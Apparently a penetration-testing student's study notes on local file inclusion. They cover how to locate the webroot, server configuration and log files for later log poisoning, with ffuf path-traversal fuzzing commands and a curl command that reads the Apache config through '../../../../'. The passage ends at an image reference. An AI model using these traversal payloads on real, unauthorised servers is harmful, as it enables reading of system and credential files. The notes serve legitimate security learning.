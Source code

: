 in addition to fuzzing LFI payloads there are different server files that may be helpful for LFI exploitation   
some example files are: 
- server webroot path 
- server config file 
- server logs 

the server webroot will come in handy for example if we wanted to find a file we uploaded but can't reach its uploads directory through relative paths, in such cases we might want to find the webroot to figure out the absolute path 

we can fuzz for the index.php file through common webroot paths 

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt

```shell
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```

we could also use the previous LFI-jhaddix wordlist to find webroots   
if none of these work then we could read the server configs as they tend to contain the webroot  

### Server logs/configurations 

we will need to identify the correct logs directory to be able to perform log poisoning 

we can find this with the LFI-jhaddix wordlist but if we wanted a more precise scan we can use:   
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux  
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows

```shell
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```

once we get results we can try reading any of the files with a simple curl command: 

```shell
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf
```

for an example if we read this file and see: 

![](Images/Pasted%20image%2020240302141750.png)
